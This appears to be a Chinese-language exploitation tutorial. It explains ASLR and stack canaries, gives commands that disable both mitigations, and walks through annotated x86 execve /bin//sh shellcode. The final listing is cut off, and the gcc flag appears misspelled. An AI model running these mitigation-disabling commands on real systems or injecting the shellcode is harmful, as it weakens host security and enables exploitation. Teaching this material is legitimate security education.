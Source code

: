 ### Stack Protection 栈保护
#### 1. ASLR
> 地址空间布局随机化 Address space layout randomization (ASLR) 是一种计算机安全技术
> 用来挫败针对内存腐败的漏洞利用的攻击
> 目的是阻止此攻击者可以可靠地跳转到shellcode的内存地址
> 具体来说就是 ASLR 随机排布了进程的关键数据在内存中的地址空间，包括可执行文件运行起来在内存中的基地址和stack的位置，堆和相关的库
Ref: [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)

简单来说 ASLR 技术会让程序每一次执行，其在内存中堆栈的地址都会不断地改变。因此ASLR会阻碍我们exploit.
那我们有办法对付它吗？我们可以禁用它 哈哈 :）:smile:

在后面的章节中我们会进一步讨论这个问题，所以现在你先不管那么多，直接禁用掉它就好了：
`echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`

#### 2. Stack Canaries
> Stack canaries, 金丝雀这个叫法是参考以前人进入煤矿之前先放只canary进去试试反应而来的, 
> 在这里是指一种试图在执行恶意代码之前检测出栈溢出是否发生的技术。
> 它的原理是这样的：在程序开始执行的时候生成一个随机的小整数，这个值存放在stack中的return pointer之前，
> 当程式执行到即将返回之前会先校验这个值是否有变化，因为如果我们实施了一次buffer overflow攻击，我们就会覆盖掉这个值，所以这种技术就是依靠这个来检查buffer overflow的
Ref:(link)[https://en.wikipedia.org/wiki/Stack\_buffer\_overflow#Stack\_canaries]

这意味着它们只是保护你的buffer.这种技术由编译器来实现，在程序的buffer结束以后加入一些随机数据，使系统能够识别缓冲区溢出。

现在我们在编译程序的时候需要先禁用掉这个技术：
`gcc -fno-stackprotector <file>.c`

### Shell Codes
Shellcode 是一小段用binary写的payload，用来注入到有漏洞的程序里面，你可以制作各种各样的payload
它们只是模块级的二进制代码。制作shellcode是一个很大的话题，在这里我将粗略介绍一下，我们将制作一个可以spwan回来一个shell给我们的shellcode

这里只是粗略地介绍一些关于如何Crafting shellcode的内容
推荐阅读下面的链接了解更多：
[In detail](http://www.vividmachines.com/shellcode/shellcode.html)

```assembly
xor     eax, eax    ;Clearing eax register                  把eax全部置零（清空eax寄存器）
push    eax         ;Pushing NULL bytes                     把eax的内容（NULL byte）push进栈（在C中字符0是string结束的标，对应机器码是\x00）
push    0x68732f2f  ;Pushing //sh                           把字符  //sh  push进栈（注意小端优先）
push    0x6e69622f  ;Pushing /bin                           把字符  /bin  push进栈
mov     ebx, esp    ;ebx now has address of /bin//sh        把当前 esp 的值（指向字符串/bin//sh的地址）copy到 ebx 中
push    eax         ;Pushing NULL byte                      把eax的内容（NULL byte）push进栈
mov     edx, esp    ;edx now has address of NULL byte       把当前 esp 的值（指向NULL byte的地址）copy到 edx 中
push    ebx         ;Pushing address of /bin//sh            把 ebx 的值（指向字符串/bin//sh的地址）push 进栈
mov     ecx, esp    ;ecx now has address of address         把当前 esp 的值（指向存放了字符串/bin//sh地址的栈帧的地址）copy到 ecx 中
                    ;of /bin//sh byte              
mov     al, 11      ;syscall number of execve is 11         把execve的syscall代号: 11 存入al（通用寄存器AX的低8位当作一个8bit的寄存器用）
int     0x80        ;Make the system call                   80中断，执行system call
```


下面是完整的shellcode汇编代码     Here is the fully shellcode in assembly
```assembly
section .text
global _start
_start:
xor     eax, eax
push    eax 
push    0x68732f2f
push    0x6e69622f
mov     ebx, esp 
push    eax 
mov     edx, esp 
push    ebx 
```